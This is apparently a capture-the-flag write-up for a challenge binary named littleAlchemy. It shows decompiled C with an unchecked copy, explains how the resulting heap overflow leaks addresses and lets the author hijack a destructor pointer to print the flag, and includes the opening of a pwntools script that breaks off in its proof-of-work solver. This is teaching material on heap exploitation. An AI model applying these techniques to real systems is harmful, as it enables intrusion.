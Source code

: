 ```c
ElementHandler::copyName(ElementHandler *this,Element *param_1,Element *param_2)

{
  long lVar1;
  size_t sVar2;
  undefined8 uVar3;
  
  if ((param_1 == (Element *)0x0) || (param_2 == (Element *)0x0)) {
    uVar3 = 0;
  }
  else {
    if (param_1[8] == (Element)0x0) {
      if (param_1 == (Element *)0x0) {
        lVar1 = 0;
      }
      else {
        lVar1 = __dynamic_cast(param_1,&Element::typeinfo,&ComposedElement::typeinfo,0);
      }
      sVar2 = strlen((char *)(lVar1 + 0x28));
                    /* try { // try from 00102814 to 00102818 has its CatchHandler @ 00102822 */
      std::copy<char*,char*>
                ((char *)(lVar1 + 0x18),(char *)(lVar1 + 0x28 + sVar2),(char *)(param_2 + 0x18));
    }
    else {
      std::copy<char*,char*>
                ((char *)(param_1 + 0x18),(char *)(param_1 + 0x28),(char *)(param_2 + 0x18));
    }
    uVar3 = 1;
  }
  return uVar3;
}
```

copyName is vulnerable when copying a ComposedElement into an Element -- it does not do bounds checks or null terminating. This allows you to leak addresses inside later heap chunks by overflowing right up to the address and then printing. I leaked the program base and the address of the flag in the stack in this way. 

I then create an element and overwrite the destructor address with the showSources function, as well as overwriting the char pointer to one of the components with the flag address. At that point all I need to do is free the Element and it will execute showSources, printing the flag. 

```python
#!/usr/bin/env python3

from pwn import *
from hashlib import sha256

import re

exe = ELF("littleAlchemy")

context.binary = exe
context.terminal = "kitty"

def solvepow(p, n):
    s = p.recvline()
    starting = s.split(b'with ')[1][:10].decode()
    s1 = s.split(b'in ')[-1][:n]
    i = 0
    print("Solving PoW...")
    while True:
        if sha256((starting+str(i)).encode('ascii')).hexdigest()[-n:] == s1.decode():
            print("Solved!")
```